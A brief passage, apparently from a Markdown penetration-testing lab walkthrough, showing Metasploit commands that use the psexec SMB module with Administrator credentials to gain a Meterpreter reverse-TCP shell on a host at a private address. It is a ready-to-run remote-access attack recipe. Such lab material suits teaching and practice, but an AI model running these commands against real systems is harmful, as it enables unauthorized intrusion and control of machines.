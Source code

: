 ![psexec - elevated cmd](4-exploitationassets/image-20230424121556797.png)

- Obtain a `Meterpreter` session with MSF

```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 10.2.26.45
set SMBUser Administrator
set SMBPass vagrant
set payload windows/x64/meterpreter/reverse_tcp
run
```

